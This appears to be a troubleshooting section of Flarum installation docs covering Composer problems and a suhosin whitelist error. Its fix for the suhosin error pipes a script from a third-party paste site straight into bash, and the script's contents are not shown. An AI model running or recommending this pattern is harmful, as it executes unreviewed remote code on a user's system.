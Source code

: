 ## Troubleshooting

If you’re having a problem installing Flarum, check out the [Installation tag](http://discuss.flarum.org/t/installation) on the support forum. Someone might’ve had the same problem as you! If not, start a discussion and we’ll do our best to help.

## Errors

### `composer` doesn't output anything

Check what the issue by running `curl -s https://getcomposer.org/installer | php -- --check`.
If there are any errors shown, try doing what it suggests as a solution.

#### The suhosin.executor.include.whitelist setting is incorrect

If you get this message, try to follow the instructions on screen.
However, if you are unable, run the following command in the Flarum directory.

This command will not work on Windows.

```bash
curl -s https://paste.redevs.org/paste/3/raw | bash
``` 

Now, whenever you need to use composer, use `./composer` instead.
